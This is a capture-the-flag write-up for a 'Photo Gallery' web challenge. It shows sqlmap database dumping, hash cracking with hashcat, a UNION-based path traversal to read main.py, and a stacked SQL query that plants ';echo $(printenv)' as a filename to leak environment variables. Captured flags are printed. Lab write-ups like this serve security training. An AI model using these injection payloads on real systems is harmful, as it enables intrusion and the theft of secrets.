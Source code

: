 # Photo Gallery

**Analysis:** 
1. Image gallery with pictures of cats.
2. `GET /fetch?id=3` returns internal server error
3. Database details:

```php
[INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.25.3.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```


```php
sqlmap -r idreq.txt --dbs --batch
```

`level5`

```php
sqlmap -r idreq.txt -D level5 --tables --batch --threads 2
```

`albums`
`photots`

```php
sqlmap -r idreq.txt -D level5 -T albums --dump --batch --threads 2
```

`Kittens`

```php
sqlmap -r idreq.txt -D level5 -T photos --dump --batch --threads 2
```

```php
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716 |
+----+------------------+--------+------------------------------------------------------------------+
```

Interesting filename for the invisible file that is producing the internal server error:

`b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716`

`/fetch?id=b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716`

```php
b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716 - Possible algorithms: SHA256, GOST R 34.11-94, SHA384, SHA3-256, Keccak-256, sha256(md5($plaintext))
```

Find hash with kali tools
```php
hashid -m hash.txt
```

```php
--File 'hash.txt'--
Analyzing 'b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716'
[+] Snefru-256 
[+] SHA-256 [Hashcat Mode: 1400]
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 [Hashcat Mode: 6900]
[+] GOST CryptoPro S-Box 
[+] SHA3-256 [Hashcat Mode: 5000]
[+] Skein-256 
[+] Skein-512(256) 
--End of file 'hash.txt'-- 
```

Crack with hashcat:

```php
hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Output:

```php
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
```

206b72697374656e616e6e65
kristenanne

This part was unnecessary, the first filename that i found was the flag itself.

Flag
`b2fd336bf2f41fe2033d8dc5baf455cf82679c9e0416b693d0a69eed805f7716`

Looking at the app documentation:

https://github.com/tiangolo/uwsgi-nginx-flask-docker/blob/master/example-flask-package-python3.8/app/app/main.py

![[Pasted image 20240911074145.png]]

```php
GET /fetch?id=-1+UNION+select+'/../../main.py'
```

![[Pasted image 20240911074258.png]]

Flag
`^FLAG^df7ef596669744bd4333db268baad9c2d5c86ada8f773d340779f00c653dde51$FLAG$`

Sets the filename to `;echo $(printenv)` for the image with the `id=3` which gets injected in the source code.

GET fetch?id=
```php
3; UPDATE photos SET filename=";echo $(printenv)" WHERE id=3; commit;
```

`GET fetch?id=3; UPDATE photos SET filename=";echo $(printenv)" WHERE id=3; commit;`

![[Pasted image 20240911074933.png]]

![[Pasted image 20240911074954.png]]

Flag
`^FLAG^703a4483a3685142ba0736e5a3e658e10fa384554c50c03189cc45a3a1e78e8a$FLAG$`

---

**Completed:** _07:53 2024-09-11_

